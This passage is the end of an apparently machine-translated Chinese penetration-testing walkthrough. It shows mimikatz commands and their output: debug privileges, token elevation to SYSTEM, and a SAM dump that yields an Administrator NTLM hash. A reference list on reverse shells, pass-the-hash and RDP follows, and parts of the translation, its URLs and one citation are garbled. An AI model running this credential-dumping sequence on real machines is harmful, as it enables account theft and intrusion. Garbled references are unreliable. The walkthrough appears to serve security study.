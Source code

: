我将提升特权:

```
**mimikatz # privilege::debug**
Privilege '20' OK**mimikatz # token::elevate**
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM672     {0;000003e7} 1 D 24844          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;001f08ca} 1 F 2417912     GAIA\adm1n      S-1-5-21-1966530601-3185510712-10604624-1009    (13g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 2465700     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```

然后转储 SAM 数据库:

```
**mimikatz # lsadump::sam**
Domain : GAIA
SysKey : 36c8d26ec0df8b23ce63bcefa6e2d821
Local SID : S-1-5-21-1966530601-3185510712-10604624SAMKey : 6e708461100b4988991ce3b4d8b1784eRID  : 000001f4 (500)
User : Administrator
  Hash NTLM: c16444961f67af7eea7e420b65c8c3eb[... snip ...]**mimikatz #**
```

阿洛拉。

# 参考

Attrition.org(约 1998 年)。*技术奇迹:防火墙*。2022 年 4 月 22 日检索自:[https://attract . org/errata/charlatan/Carolyn _ meinel/www/tech-06 . html](https://attrition.org/errata/charlatan/carolyn_meinel/www/tech-06.html)

Chandel，R. (2019)。*通过 Windows 命令行程序获取反向外壳*。黑客文章。2022 年 4 月 24 日检索自:[https://www . hacking articles . in/get-reverse-shell-via-windows-one-liner/](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)

坎宁安博士和古德温博士(2015 年)。自私的时代:安·兰德、道德和金融危机。哈里·n·艾布拉姆斯。

Cybele，m .，Ricardi，g .和“Hugo”(未注明)。 *ThinVNC — Web 远程桌面*。SourceForge 仓库。2022 年 4 月 23 日检索自:[https://sourceforge.net/projects/thinvnc/](https://sourceforge.net/projects/thinvnc/)

德尔皮，B. (2021)。*2 . 2 . 0 2021 08 10–2 Windows 365 网页密码垃圾修复*。GitHub 仓库。2022 年 5 月 5 日检索自:[https://github . com/gentili kiwi/mimikatz/releases/tag/2 . 2 . 0-2021 08 10-2](https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20210810-2)

哥伦比亚特区胡梅尔(2009 年)。*能通过 Hash* 为什么还要破解？SANS 研究所。2022 年 5 月 4 日检索自:【https://www.sans.org/white-papers/33219/ 

梁，h，陈，l，徐，s(2021)。*了解远程桌面协议(RDP)* 。微软文档。2022 年 4 月 22 日检索自:[https://docs . Microsoft . com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol](https://docs.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol)

